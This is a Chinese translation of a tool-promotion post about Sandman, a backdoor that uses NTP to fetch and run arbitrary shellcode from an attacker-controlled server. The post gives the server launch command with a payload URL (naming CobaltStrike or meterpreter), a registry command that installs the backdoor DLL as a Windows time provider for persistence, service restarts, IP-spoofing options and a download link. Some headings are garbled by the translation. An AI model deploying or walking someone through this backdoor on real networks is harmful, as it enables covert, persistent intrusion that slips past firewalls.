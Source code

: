 # Sandman:基于 NTP 的后门，用于强化网络中的红队交战

> 原文：<https://kalilinuxtutorials.com/sandman/>

[![](img//3cb1fde8091243e27d5db9216e177682.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgP6RIdM3oDUYLqBZZkMcq4DkMge-5zdb7jy3aOOaLl9gCQkD11I2fXnfdvCUuI4mWRAIj188BtZ7YTDD_tIdzOn-cgn9MOWD7hiOYyUwkfXb9vkijOF16T3_kUNsUpr2TyudLzKHz9zGPBbTVmlfu9ZRyk27T3DJSnt03-mqQhkE71Id7o1TDyPOCt/s728/Sandman.png)

Sandman 是一个后门程序，在红队交战期间用于加固网络。

Sandman 作为 stager 工作，利用 NTP(一种同步时间和日期的协议)从预定义的服务器获取并运行任意的**外壳代码**。

因为 NTP 是一种被许多防御者忽视的协议，导致了广泛的网络可访问性。

## 用法

### sandmanswerver _usage)

**在 windows / *nix 机器上运行:**

```
python3 sandman_server.py "Network Adapter" "Payload Url" "optional: ip to spoof"
```

*   **网络适配器:**您希望服务器监听的适配器(例如以太网用于 Windows，eth0 用于*nix)。
*   **有效负载 Url:** 外壳代码的 Url，它可以是您的代理(例如，CobaltStrike 或 meterpreter)或其他 stager。
*   **要欺骗的 IP:**如果要欺骗合法的 IP 地址(例如 time.microsoft.com 的 IP 地址)。

### 散货后门(用途)

首先，您可以将 SandmanBackdoor 编译为下面提到的，因为它是一个单一的轻量级 C#可执行文件，您可以通过 ExecuteAssembly 执行它，作为 NTP 提供程序运行它，或者只是执行/注入它。

### SandmanBackdoorTimeProvider(用法)

要使用它，您需要遵循简单的步骤:

*   **添加以下注册表值:**

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient" /v DllName /t REG_SZ /d "C:\Path\To\TheDll.dll"
```

*   **重启 w32time 服务:**

```
sc stop w32time
sc start w32time
```

**注意:确保使用 x64 选项而不是任何 CPU 选项进行编译！**

## 功能

*   从攻击者控制的服务器获取并执行任意有效载荷。
*   可以在加固的网络上工作，因为防火墙中通常允许 NTP。
*   通过 IP 欺骗冒充合法的 NTP 服务器。

## 设置

### SandmanServer (Setup)

*   Python 3.9
*   需求在[需求](https://github.com/Idov31/Sandman/blob/master/SandmanServer/requirements.txt)文件中规定。

### 睡魔后门(设置)

为了编译后门，我使用了 Visual Studio 2022，但正如在[用法部分](https://github.com/Idov31/Sandman#usage)中提到的，它可以用 VS2022 和 CSC 编译。您可以使用 USE_SHELLCODE 并使用 Orca 的外壳代码来编译它，也可以不使用 USE_SHELLCODE 来使用 WebClient。

### SandmanBackdoorTimeProvider(设置)

为了编译我用的 Visual Studio 2022 的后门，你还需要安装 [DllExport](https://github.com/3F/DllExport) (通过 Nuget 或者任何其他方式)来编译。您可以使用 USE_SHELLCODE 并使用 Orca 的外壳代码来编译它，也可以不使用 USE_SHELLCODE 来使用 WebClient。

[Click Here To Download](https://github.com/Idov31/Sandman)